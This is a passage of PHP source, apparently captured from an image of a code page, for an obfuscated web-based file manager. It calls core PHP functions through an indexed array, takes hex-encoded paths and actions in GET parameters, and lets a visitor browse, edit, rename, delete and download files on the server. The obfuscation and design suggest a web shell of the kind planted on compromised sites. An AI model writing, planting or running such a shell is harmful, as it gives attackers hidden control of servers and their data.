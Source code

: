 	}
}
if (isset($_GET["download"])) {
	header("Content-Type: application/octet-stream");
	header("Content-Transfer-Encoding: Binary");
	header("Content-Length: ".$fc[17](nhx($_GET["n"])));
	header("Content-disposition: attachment; filename=\"".nhx($_GET["n"])."\"");
}
?>
</div><div class="bg-dark border table-responsive mt-2"><div class="ml-2" style="font-size:18px;"><span>Path: </span>
<?php
$ps = $fc[4]("/(\\\|\/)/", $p);
foreach ($ps as $k => $v) {
	if ($k == 0 && $v == "") {
		echo "<a href=\"?p=2f\">~</a>/"; continue;
	}
	if ($v == "") continue;
	echo "<a href=\"?p=";
	for ($i = 0; $i <= $k; $i++) {
		echo hex($ps[$i]);
		if ($i != $k) echo "2f";
	}
	echo "\">{$v}</a>/";
}
?>
</div></div><article class="bg-dark border table-responsive mt-2">
<?php if (!isset($_GET["a"])): ?>
<table class="table table-hover table-borderless table-sm"><thead class="text-light"><tr><th>Name</th><th>Size</th><th>Permission</th><th>Action</th></tr></thead><tbody class="text-light">
<?php
$scD = $fc[5]($scD($p), [".", ".."]);
foreach ($scD as $d) {
	if (!$fc[6]("$p/$d")) continue;
	echo "<tr><td><a href=\"?p=".hex("$p/$d")."\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Latest modify on ".$fc[19]("Y-m-d H:i", $fc[20]("$p/$d"))."\"><i class=\"fa fa-fw fa-folder\"></i> {$d}</a></td><td>N/A</td><td><font color=\"".(($fc[8]("$p/$d")) ? "#00ff00" : (!$fc[9]("$p/$d") ? "red" : null))."\">".perms("$p/$d")."</font></td><td><a href=\"?p=".hex($p)."&a=".hex("rename")."&n=".hex($d)."&t=d\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Rename\"><i class=\"fa fa-fw fa-pencil\"></i></a><a href=\"?p=".hex($p)."&a=".hex("delete")."&n=".hex($d)."\" class=\"delete\" data-type=\"folder\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Delete\"><i class=\"fa fa-fw fa-trash\"></i></a></td></tr>";
}
foreach ($scD as $f) {
	if (!$fc[7]("$p/$f")) continue;
	$sz = $fc[10]("$p/$f")/1024;
	$sz = round($sz, 3);
	$sz = ($sz > 1024) ? round($sz/1024, 2)."MB" : $sz."KB";
	echo "<tr><td><a href=\"?p=".hex($p)."&a=".hex("view")."&n=".hex($f)."\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Latest modify on ".$fc[19]("Y-m-d H:i", $fc[20]("$p/$f"))."\"><i class=\"fa fa-fw fa-file\"></i> {$f}</a></td><td>{$sz}</td><td><font color=\"".(($fc[8]("$p/$f")) ? "#00ff00" : (!$fc[9]("$p/$f") ? "red" : null))."\">".perms("$p/$f")."</font></td><td><div class=\"d-flex justify-content-between\"><a href=\"?p=".hex($p)."&a=".hex("edit")."&n=".hex($f)."\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Edit\"><i class=\"fa fa-fw fa-edit\"></i></a><a href=\"?p=".hex($p)."&a=".hex("rename")."&n=".hex($f)."&t=f\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Rename\"><i class=\"fa fa-fw fa-pencil\"></i></a><a href=\"?p=".hex($p)."&n=".hex($f)."&download"."\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Download\"><i class=\"fa fa-fw fa-download\"></i></a><a href=\"?p=".hex($p)."&a=".hex("delete")."&n=".hex($f)."\" class=\"delete\" data-type=\"file\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Delete\"><i class=\"fa fa-fw fa-trash\"></i></a></div></td></tr>";
}
?></tbody></table>
<?php else :if (isset($_GET["a"])) $a = nhx($_GET["a"]); ?>
<div class="px-2 py-2">